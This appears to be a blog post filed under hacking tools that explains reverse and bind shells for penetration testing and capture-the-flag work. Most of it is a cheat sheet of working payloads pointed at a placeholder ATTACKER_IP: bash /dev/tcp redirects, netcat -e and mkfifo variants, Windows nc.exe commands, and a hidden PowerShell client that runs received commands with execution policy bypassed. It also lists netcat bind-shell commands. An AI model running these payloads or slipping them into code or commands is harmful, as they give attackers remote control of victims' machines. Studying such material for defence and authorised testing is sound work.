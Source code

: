 ```yaml
---
layout: post
title: ReverseShell
abbrlink: 3fe3fedb5a7b4b17a115606c40903f78
tags: []
categories:
  - "Hacking "
  - Tools
date: 1725213900000
updated: 1738255309234
---
```


## Description

A reverse shell is a type of shell where the target machine initiates a connection to the attacker's machine. This technique is commonly used in penetration testing and CTF challenges to gain remote access to a system.

# 🎯 Visualizing the Reverse Shell

🔹 Victim Machine (Target)
📌 What happens?

Executes a malicious command (e.g., Bash, Python, Netcat).
Connects to ATTACKER\_IP on ATTACKER\_PORT.
Opens a shell session and sends input/output to the attacker's machine.
🔹 Attacker Machine
📌 What happens?

Runs a Netcat listener or Metasploit handler.
Waits for a connection from the victim.
Once connected, the attacker can execute remote commands.

# How is This Different from a Bind Shell?

🔥 Reverse Shell ✅ Victim initiates connection to attacker.
✅ Useful when a firewall blocks incoming connections.

🔥 Bind Shell ✅ Victim opens a port, and the attacker connects to it.
❌ Blocked by firewalls if inbound connections aren’t allowed.

# 🎯 Attacker IP (Hacker's Machine)

What the Attacker Does
Listens for the Connection – The attacker starts a listener to wait for an incoming connection.
Receives the Shell – When the victim connects back, the attacker gains control of the shell.
Executes Commands Remotely – The attacker can now run commands on the victim's machine.
Attacker's Action in a Reverse Shell
Example (Attacker Runs This First):

```sh
nc -lvnp 4444
```

📌 What happens?

nc (Netcat) – A tool to create network connections.
-l – Listens for incoming connections.
-v – Verbose mode (shows connection details).
-n – Prevents DNS lookup (faster response).
-p 4444 – Listens on port 4444 for the victim to connect.

# 🎯 Victim IP (Target Machine)

What the Victim Does
Initiates the Connection – The victim sends an outbound request to the attacker's IP.
Creates a TCP Connection – The victim’s machine connects to the attacker's listening port.
Redirects Input/Output – The victim binds the shell (e.g., /bin/sh or cmd.exe) to the connection, allowing the attacker to send commands.
Victim's Action in a Reverse Shell
Example (Victim Runs This):

```sh
bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1
```

📌 What happens?

`/dev/tcp/ATTACKER_IP/ATTACKER_PORT` – Creates a TCP connection to the attacker.
`bash -i` – Opens an interactive shell.
`>&` – Redirects standard input/output/error to the attacker's machine.

# Step-by-Step Reverse Shell Execution

1️⃣ Attacker Prepares a Listener
(Runs on the Attacker's Machine)

```sh
nc -lvnp 4444
```

✅ Waiting for a connection...

2️⃣ Victim Executes the Reverse Shell
(Runs on the Victim's Machine)

```sh
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

✅ Victim connects back to the attacker.

3️⃣ Attacker Gets a Shell
✅ Connection established! Now the attacker can run commands on the victim's machine.

```sh
whoami
ls -la
uname -a
```

## Common Reverse Shells

# 🦾 Netcat (nc) Reverse Shell

```sh
nc -e /bin/sh ATTACKER_IP ATTACKER_PORT
```

📌 How it works:

Uses Netcat to send /bin/sh shell over a TCP connection to the attacker.
The -e flag executes a shell when a connection is received.
🔥 Alternative (if -e is disabled)

```sh
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT > /tmp/f
```

Creates a named pipe (mkfifo), allowing a shell session to be redirected.

# 🦀 Bash Reverse Shell

```sh
bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1
```

📌 How it works:

Uses /dev/tcp/ to create a network socket.
Redirects input/output to the attacker's machine.

# 🎯 Windows Reverse Shells

⚡ Windows Netcat (nc) Reverse Shell

```sh
nc.exe -e cmd.exe ATTACKER_IP ATTACKER_PORT
```

📌 How it works:

Uses Netcat (nc.exe) on Windows to connect back to the attacker's machine and execute cmd.exe.

# 🏹 PowerShell Reverse Shell

```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "$client = New-Object
System.Net.Sockets.TCPClient('ATTACKER_IP', ATTACKER_PORT);$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data =
(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data
2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte =
([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

📌 How it works:

Uses PowerShell to create a TCP connection.
Reads data from the attacker and executes it like a remote shell

# 🎯 Bind Shells (Attacker Connects to Victim)

💀 Unlike a reverse shell, a bind shell opens a listener on the victim machine. The attacker connects to it.

🔥 Netcat Bind Shell (Linux)

```sh
nc -lvnp ATTACKER_PORT -e /bin/sh
```

🔥 Windows Bind Shell (Netcat)

```sh
nc.exe -lvnp ATTACKER_PORT -e cmd.exe
```

📌 How it works:

The victim starts a Netcat listener (-lvp).
The attacker connects to it.
